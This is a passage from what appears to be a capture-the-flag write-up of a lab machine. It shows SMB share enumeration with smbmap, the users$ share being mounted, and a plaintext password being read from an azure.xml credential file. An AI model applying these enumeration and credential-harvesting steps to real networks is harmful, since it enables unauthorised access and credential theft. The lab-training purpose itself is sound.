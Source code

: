 ### SMB - Port 445

Now that we have a valid login, we can check if we have access to any smb-shares.

```bash
root@darkness:~# smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172
[+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        azure_uploads                                           READ ONLY
        C$                                                      NO ACCESS       Default share
        E$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        users$                                                  READ ONLY
```

`Users$` sounds promising. Let us mount the share and enumerate it a bit more. We can use `find` to show us all readable files available.

```bash
root@darkness:~# mkdir /mnt/monteverde; mount -o user=SABatchJobs -t cifs //10.10.10.172/users$ /mnt/monteverde
Password for SABatchJobs@//10.10.10.172/users$:  ***********
root@darkness:/mnt/monteverde# find .
.
./dgalanos
./mhope
./mhope/azure.xml
./roleary
./smorgan
```

Mounting the smb-share we seem to have access to a file called `azure.xml`.

```bash
root@darkness:/mnt/monteverde# cat ./mhope/azure.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
